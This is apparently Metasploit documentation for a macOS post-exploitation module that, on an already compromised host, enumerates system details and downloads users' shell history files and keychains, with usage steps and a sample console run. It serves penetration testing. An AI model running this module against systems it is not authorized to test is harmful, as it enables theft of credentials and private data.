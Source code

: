 ## Vulnerable Application

This module gathers basic system information from Mac OS X Tiger (10.4), through Mojave (10.14).

The following information is enumerated:

1. OS
2. Network
3. Bluetooth
4. Ethernet
5. Printers
6. USB
7. Airport
8. Firewall
9. Known Networks
10. Applications
11. Development Tools
12. Frameworks
13. Logs
14. Preference Panes
15. StartUp
16. TCP/UDP Connections
17. Environment Variables
18. Last Boottime
19. Current Activity
20. Process List
21. Users & Groups
22. User history files (`.bash_history`)
23. User keychains (downloaded as well)

## Verification Steps

  1. Start msfconsole
  2. Get a shell, user level is fine
  3. Do: ```use post/osx/gather/enum_osx```
  4. Do: ```set session #```
  5. Do: ```run```
  6. You should have lots of files saved to the logs folder

## Scenarios

### User level shell on OSX 10.14.4

```
msf > use post/osx/gather/enum_osx 
msf post(osx/gather/enum_osx) > show options

Module options (post/osx/gather/enum_osx):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(osx/gather/enum_osx) > set session 1
session => 1
msf post(osx/gather/enum_osx) > run

[*] Running module against MacBook-Pro.nogroup
[*] Saving all data to /logs/post/enum_osx/MacBook-Pro.nogroup_20190415.5738
[*] 	Enumerating OS
[*] 	Enumerating Network
[*] 	Enumerating Bluetooth
[*] 	Enumerating Ethernet
[*] 	Enumerating Printers
[*] 	Enumerating USB
[*] 	Enumerating Airport
[*] 	Enumerating Firewall
[*] 	Enumerating Known Networks
[*] 	Enumerating Applications
[*] 	Enumerating Development Tools
[*] 	Enumerating Frameworks
[*] 	Enumerating Logs
[*] 	Enumerating Preference Panes
[*] 	Enumerating StartUp
[*] 	Enumerating TCP Connections
[*] 	Enumerating UDP Connections
[*] 	Enumerating Environment Variables
[*] 	Enumerating Last Boottime
[*] 	Enumerating Current Activity
[*] 	Enumerating Process List
[*] 	Enumerating Users
[*] 	Enumerating Groups
[*] Extracting history files
[*] 	History file .bash_history found for h00die
[*] 	Downloading .bash_history
[*] Enumerating and Downloading keychains for h00die
[*] Post module execution completed
msf post(osx/gather/enum_osx) > ls -lah /logs/post/enum_osx/MacBook-Pro.nogroup_20190415.5738
[*] exec: ls -lah /logs/post/enum_osx/MacBook-Pro.nogroup_20190415.5738

total 1.4M
drwxr-xr-x 2 root root 4.0K Apr 15 07:58 .
drwxr-xr-x 3 root root 4.0K Apr 15 07:57 ..
-rw-r--r-- 1 root root 4.2K Apr 15 07:57 Airport.txt
-rw-r--r-- 1 root root  87K Apr 15 07:57 Applications.txt
-rw-r--r-- 1 root root 3.5K Apr 15 07:57 Bluetooth.txt
-rw-r--r-- 1 root root   64 Apr 15 07:58 Current Activity.txt
-rw-r--r-- 1 root root    0 Apr 15 07:57 Development Tools.txt
-rw-r--r-- 1 root root  308 Apr 15 07:58 Environment Variables.txt
-rw-r--r-- 1 root root    0 Apr 15 07:57 Ethernet.txt
-rw-r--r-- 1 root root  129 Apr 15 07:57 Firewall.txt
-rw-r--r-- 1 root root 316K Apr 15 07:58 Frameworks.txt
-rw-r--r-- 1 root root   62 Apr 15 07:58 Groups.txt
-rw-r--r-- 1 root root  414 Apr 15 07:58 h00die_.bash_history.txt
-rw-r--r-- 1 root root   63 Apr 15 07:58 h00die_bash__line_342__usr_bin_security__No_such_file_or_directory
-rw-r--r-- 1 root root 1.3K Apr 15 07:57 Known Networks.txt
-rw-r--r-- 1 root root   32 Apr 15 07:58 Last Boottime.txt
-rw-r--r-- 1 root root 841K Apr 15 07:58 Logs.txt
-rw-r--r-- 1 root root 2.1K Apr 15 07:57 Network.txt
-rw-r--r-- 1 root root  364 Apr 15 07:57 OS.txt
-rw-r--r-- 1 root root 8.8K Apr 15 07:58 Preference Panes.txt
-rw-r--r-- 1 root root  204 Apr 15 07:57 Printers.txt
-rw-r--r-- 1 root root  34K Apr 15 07:58 Process List.txt
-rw-r--r-- 1 root root    0 Apr 15 07:58 StartUp.txt
-rw-r--r-- 1 root root  739 Apr 15 07:58 TCP Connections.txt
-rw-r--r-- 1 root root 4.1K Apr 15 07:58 UDP Connections.txt
-rw-r--r-- 1 root root 1.7K Apr 15 07:57 USB.txt
-rw-r--r-- 1 root root   62 Apr 15 07:58 Users.txt
```

